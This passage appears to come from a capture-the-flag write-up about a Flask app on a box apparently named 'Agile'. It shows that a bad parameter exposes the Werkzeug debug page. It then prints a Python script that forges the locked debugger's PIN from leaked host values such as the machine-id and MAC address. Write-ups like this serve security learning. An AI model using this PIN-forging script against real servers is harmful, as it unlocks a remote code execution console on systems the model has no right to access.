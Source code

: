 Also, If we pass some invalid parameter, It will give us the debug page.

![Untitled](Agile%207ca8a4a849f84218b33b27a1bf90bc3f/Untitled%204.png)

But the debugger is locked. To exploit this, I used the following code

```bash
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052384868',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
```